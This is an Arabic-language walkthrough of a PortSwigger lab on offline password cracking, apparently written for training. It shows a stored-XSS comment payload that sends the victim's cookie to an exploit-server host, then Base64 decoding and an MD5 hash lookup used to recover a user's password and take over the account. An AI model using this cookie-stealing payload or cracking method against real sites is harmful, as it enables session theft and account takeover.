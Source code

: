 # [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

> **الهدف:** استخراج كوكي  (stay-logged-in) للمستخدم`carlos`، واستخلاص هاش كلمة المرور، وكسرها  للحصول على كلمة المرور ، ثم تسجيل الدخول بحساب `carlos` وحذف الحساب 

---
## ملخص سريع

1. سجّل دخولك بحسابك واطّلع على كوكي "stay-logged-in"؛ ستجده مُشفرًا بـ Base64 ومكوّنًا كالتالي: `username:md5HashOfPassword`.
    
2. استغل ثغرة XSS المخزنة في تعليقات المدونة لجعل متصفح كارلوس يرسل كوكيه إلى خادم الاستغلال (exploit server).
    
3. استخرج الكوكي من سجلات الوصول في خادم الاستغلال، فكّه من Base64، واستخرج هاش MD5.
    
4. فك الهَاش (أو ابحث عنه عبر محرك بحث) لتحصل على كلمة المرور النصية (`onceuponatime`).
    
5. سجّل دخولك كـ `carlos` واحذف حسابه من صفحة "حسابي".
    

---

## الخطوات 
### 1) تسجيل الدخول وفحص كوكي stay-logged-in

- سجّل الدخول باستخدام: `wiener:peter`.
    
- في Burp: **Proxy → HTTP history** → اعثر على ردّ السيرفر لطلب تسجيل الدخول.
    
- ظلّل قيمة كوكي `stay-logged-in` وانسخها إلى **Burp Decoder**.
    
- فك Base64؛ سترى شكلًا مثل: `username:md5hash`.
    

**مثال للنتيجة بعد فك Base64:**

```
wiener:26323c16d5f4dabff3bb136f2460a943
```

---

### 2) معرفه cookie carlos من ثغرة XSS

- اللاب يحتوي على ثغرة XSS مخزنة داخل خانة التعليقات في المدونة.
    
- اذهب إلى **exploit server** وخذ عنوان الخادم (ID أو URL) الخاص بك، مثل `YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
    
- أضف تعليقًا في إحدى المدونات بالحمولة التالية (استبدل YOUR-EXPLOIT-SERVER-ID بالمعرّف الخاص بك):
    

```html
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

- افتح سجلات الوصول على خادم الاستغلال (access log) وانتظر حتى يقوم الضحية بزيارة الصفحة — ستظهر هناك طلبات GET تحتوي على الكوكي المرسل.
    

---

### 3) استخراج وفك الكوكي

- من سجل الوصول (exploit server access log)، انسخ قيمة الكوكي التي وصلتك عبر الطلب.
    
- ألصق القيمة في **Burp Decoder** وفكّها من Base64.
    
- النتيجة المتوقعة: `carlos:26323c16d5f4dabff3bb136f2460a943`.
    

---

### 4) كسر/التعرّف على كلمة المرور

- خذ هاش MD5: `26323c16d5f4dabff3bb136f2460a943` وابحث عنه عبر محرك بحث أو استخدم قاعدة بيانات هاشات MD5/أدوات تحطيم الهاش.
    
- النتيجة المتطابقة هي كلمة المرور النصية: **`onceuponatime`**.
    
---

### 5) تسجيل الدخول بحساب `carlos` وحذف الحساب

-  اسم المستخدم: `carlos`

-  كلمة المرور: `onceuponatime`

- اذهب إلى صفحة **My account** واضغط حذف الحساب لحل اللاب.
---
